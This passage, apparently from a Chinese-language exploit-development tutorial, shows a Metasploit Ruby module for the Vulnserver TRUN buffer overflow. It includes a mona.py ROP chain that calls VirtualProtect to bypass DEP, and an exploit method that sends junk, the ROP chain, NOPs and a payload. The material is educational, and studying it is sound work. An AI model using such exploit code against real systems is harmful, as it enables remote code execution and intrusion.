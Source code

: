 ```
       ], 
      'DisclosureDate' => 'Mar 4 2018' 
   )) 
   register_options( 
   [ 
         Opt::RPORT(9999) 
   ]) 
  end 
```

我们已经编写了许多模块，并对所需的库和初始化部分非常熟悉。此外，我们不需要返回地址，因为我们使用的是自动构建机制跳转到 shellcode 的 ROP 链。让我们专注于利用部分：

```
def create_rop_chain() 

    # rop chain generated with mona.py - www.corelan.be 
    rop_gadgets =  
    [ 
      0x77dfb7e4,  # POP ECX # RETN [RPCRT4.dll]  
      0x6250609c,  # ptr to &VirtualProtect() [IAT essfunc.dll] 
      0x76a5fd52,  # MOV ESI,DWORD PTR DS:[ECX] # ADD DH,DH # RETN [MSCTF.dll]  
      0x766a70d7,  # POP EBP # RETN [USP10.dll]  
      0x625011bb,  # & jmp esp [essfunc.dll] 
      0x777f557c,  # POP EAX # RETN [msvcrt.dll]  
      0xfffffdff,  # Value to negate, will become 0x00000201 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76a5f9f1,  # XCHG EAX,EBX # RETN [MSCTF.dll]  
      0x7779f5d4,  # POP EAX # RETN [msvcrt.dll]  
      0xffffffc0,  # Value to negate, will become 0x00000040 
      0x765e4802,  # NEG EAX # RETN [user32.dll]  
      0x76386fc0,  # XCHG EAX,EDX # RETN [kernel32.dll]  
      0x77dfd09c,  # POP ECX # RETN [RPCRT4.dll]  
      0x62504dfc,  # &Writable location [essfunc.dll] 
      0x77e461e1,  # POP EDI # RETN [RPCRT4.dll]  
      0x765e4804,  # RETN (ROP NOP) [user32.dll] 
      0x777f3836,  # POP EAX # RETN [msvcrt.dll]  
      0x90909090,  # nop 
      0x77d43c64,  # PUSHAD # RETN [ntdll.dll]  
    ].flatten.pack("V*") 

    return rop_gadgets 

  end 
  def exploit 
    connect 
    rop_chain = create_rop_chain() 
    junk = rand_text_alpha_upper(target['Offset']) 
    buf = "TRUN ."+junk + rop_chain  + make_nops(16) + payload.encoded+'rn' 
    sock.put(buf) 
    handler 
    disconnect 
  end 
end 
```
